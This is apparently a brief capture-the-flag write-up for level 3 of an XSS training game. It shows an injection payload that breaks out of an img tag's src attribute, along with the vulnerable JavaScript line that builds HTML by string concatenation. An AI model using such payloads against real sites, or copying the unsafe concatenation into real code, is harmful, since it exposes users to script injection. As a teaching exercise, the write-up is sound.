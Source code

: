 ## Level 3

Payload:

```html
1.jpg' /><script>alert(0)</script>
```


Vulnerable line is in `index.html` line 17: 

```javascript
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

So we would like something like:

```
num = 1.jpg' /><script>alert(0)</script>
```